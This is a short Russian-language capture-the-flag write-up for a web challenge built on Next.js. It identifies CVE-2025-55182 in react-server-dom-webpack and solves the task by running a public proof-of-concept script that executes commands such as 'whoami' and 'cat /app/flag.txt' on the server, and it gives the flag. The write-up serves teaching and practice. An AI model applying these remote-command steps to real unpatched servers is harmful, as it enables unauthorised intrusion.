



## ЖК "Пантелеон" 

| Событие | Название | Категория | 
| :------ | ---- | ---- | 
| ХЗ |Хакерский сайт  | WEB, Linux | 

  
### Описание
Некий Александр Суворов разработал сайт для продажи своих хакерских услуг, но что-то пошло не так...


## Решение

Подключаемся к сервису:

```text
http://[HOST]:[PORT]
```



### Этап 1: Анализ приложения

Открываем сайт и видим стилизованный интерфейс с хакерской тематикой. Приложение построено на Next.js 16.x с использованием React Server Components.



### Этап 2: Обнаружение уязвимости

Next.js использует React Server Components для обработки запросов. В библиотеке `react-server-dom-webpack` версий 19.0.0-19.2.0 обнаружена критическая уязвимость CVE-2025-55182, которая позволяет получить доступ к встроенным модулям Node.js через цепочку прототипов. Уязы новая поэтому было бы хорошо просканирвоать любым опенсорс сканером.

### Этап 3: Эксплуатация

Используем готовый опенсорс пок для:

```bash
python3 poc.py http://[HOST]:[PORT] "whoami"
```

Вывод:
```text
root
```

Ищем флаг в файловой системе:

```bash
python3 poc.py http://[HOST]:[PORT] "ls -la /app"
python3 poc.py http://[HOST]:[PORT] "cat /app/flag.txt"
```

---

## Флаг

```text
vka{pr0t0typ3_p0llut10n_1n_r34ct}
```

---

